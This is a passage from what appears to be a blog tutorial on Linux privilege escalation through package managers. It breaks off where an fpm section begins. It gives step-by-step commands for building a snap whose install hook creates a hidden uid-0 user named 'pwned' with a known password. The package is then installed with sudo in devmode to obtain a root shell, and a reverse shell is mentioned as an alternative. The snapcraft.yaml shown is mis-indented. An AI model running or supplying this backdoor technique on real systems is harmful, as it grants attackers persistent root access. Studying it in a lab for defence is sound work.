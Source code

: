 Next change into the snap directory then create a `hooks` directory and `install` file inside.

```sh
cd snap
mkdir hooks
touch hooks/install
```

Now we will put our malicious commands in the install file and make it and executable bash script. 

Since our goal is to obtain a root shell, we will use another technique of adding a new user with uid 0 to give us 
root privileges. You can also use a reverse shell commmand.

```sh
#!/bin/bash
/usr/sbin/useradd -p $(openssl passwd -1 password123) -u 0 -o -s /bin/bash -m pwned
```

Don't forget to make the script executable.

```sh
chmod +x hooks/install
```

Now let's edit the snapcraft.yaml file, we'll change the default name, summary and description and also delete the base entry.

```yaml
name: exploit # you probably want to 'snapcraft register <name>'
version: '0.1' # just for humans, typically '1.2+git' or '1.3.2'
summary: privesc exploit
description: |
  privesc exploit

  grade: devel # must be 'stable' to release into candidate/stable channels
  confinement: devmode # use 'strict' once you have the right plugs and slots

  parts:
    my-part:
        # See 'snapcraft plugins'
	    plugin: nil
```

Let's move back into the `exploit` directory and then run `snapcraft` command to create the package then install it.

```sh
sudo snap install --dangerous --devmode exploit_0.1_amd64.snap
```

Once installed we see our user has been added and we can switch user and get the root shell.

{{< image src="/img/package_manager_privesc/privesc-13.png" alt="" position="center" style="border-radius: 8px;" >}}

#### 2. fpm

Using fpm we'll use the exact same file structure but change the `snap` directory name to `meta`. 
